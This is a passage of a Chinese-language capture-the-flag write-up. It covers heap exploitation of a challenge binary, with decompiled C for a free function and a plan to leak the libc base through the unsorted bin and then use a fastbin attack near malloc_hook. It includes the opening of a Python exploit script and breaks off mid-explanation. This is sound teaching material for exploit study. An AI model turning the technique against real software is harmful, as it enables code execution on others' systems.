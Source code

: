 ```c
__int64 __fastcall free_chunk(chunk *a1)
{
  __int64 result; // rax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = read_num();
  v2 = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].inuse);
    if ( (_DWORD)result == 1 )
    {
      LODWORD(a1[v2].inuse) = 0;
      a1[v2].size = 0LL;
      free(a1[v2].ptr);
      result = (__int64)&a1[v2];
      *(_QWORD *)(result + 16) = 0LL;
    }
  }
  return result;
}
```

dump 就是输出对应索引 chunk 的内容。



## 利用思路

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

### 泄漏 libc 基地址

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin 中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk 的位置。这样才可以进行泄漏。具体设计如下

```python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。
